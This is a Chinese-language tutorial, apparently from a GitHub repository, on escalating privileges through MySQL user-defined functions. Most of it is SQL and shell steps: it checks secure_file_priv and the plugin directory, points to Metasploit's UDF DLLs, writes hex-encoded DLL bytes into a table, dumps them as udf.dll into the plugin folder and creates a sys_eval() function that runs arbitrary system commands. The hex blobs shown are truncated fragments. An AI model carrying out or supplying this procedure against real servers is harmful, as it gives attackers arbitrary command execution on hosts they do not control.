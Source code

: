 
### Mysql UDF提权

UDF文件名为 udf.dll，存放在MySQL安装目录的 lib/plugin 目录下(当MySQL>5.1，该目录默认不存在)。在 udf.dll 文件中，我定义了名为 sys_eval() 的 MySQL 函数，该函数可以执行系统任意命令。

>当 MySQL< 5.1 版本时，将 .dll 文件导入到 c:\windows 或者 c:\windows\system32 目录下。
>当 MySQL> 5.1 版本时，将 .dll 文件导入到 MySQL Server 5.xx\lib\plugin 目录下 (lib\plugin目录默认不存在，需自行创建)。

一查看  secure_file_priv  的值

secure_file_priv 是用来限制 load dumpfile、into  outfile、load_file() 函数在哪个目录下拥有上传或者读取文件的权限

```
show global variables like 'secure%';
     当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出，此时无法提权
     当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，此时也无法提权
     当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权
```

我们先查看 secure_file_priv 的值是否为空，因为只有为空我们才能继续下面的提权步骤。

如果 secure_file_priv 为NULL是不能写入导出文件的。


如果 secure_file_priv没有具体的值，则可以写入导出文件。


- secure_file_priv 的值在MySQL数据库的安装目录的 my.ini 文件中配置。

- 如果 secure_file_priv没有具体的值，则可以写入导出文件。

-  secure_file_priv 的值在MySQL数据库的安装目录的 my.ini 文件中配置。



二 **查看系统架构以及plugin目录**

```
show variables like '%compile%';             #查看主机版本及架构
show variables like 'plugin%';               #查看 plugin 目录
```



这里是 x64 位的系统，我们可以去kali中 /usr/share/metasploit-framework/data/exploits/mysql/ 目录下载64位的 .dll 文件。(由于我这里MSF更改过，所以路径有所不同)

![img](images/20190922233138843.png)

三 **将dll文件写入plugin目录,并且创建函数**

创建一个表并将二进制数据插入到十六进制编码流中。你可以通过insert语句或将其分解为多个部分，然后通过update语句拼接二进制数据。

```
create table temp(data longblob);
insert into temp(data) values (0x4d5a90000300000004000000ffff0000b800000000000000400000000000000000000000000000000000000000000000000000000000000000000000f00000000e1fba0e00b409cd21b8014ccd21546869732070726f6772616d2063616e6e6f742062652072756e20696e20444f53206d6f64652e0d0d0a2400000000000000000000000000000);
update temp set data = concat(data,0x33c2ede077a383b377a383b377a383b369f110b375a383b369f100b37da383b369f107b375a383b35065f8b374a383b377a382b35ba383b369f10ab376a383b369f116b375a383b369f111b376a383b369f112b376a383b35269636877a383b300000000000000000000000000000000504500006486060070b1834b00000000);
select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll";
create function sys_eval returns string soname 'udf.dll';   #创建函数sys_eval
```
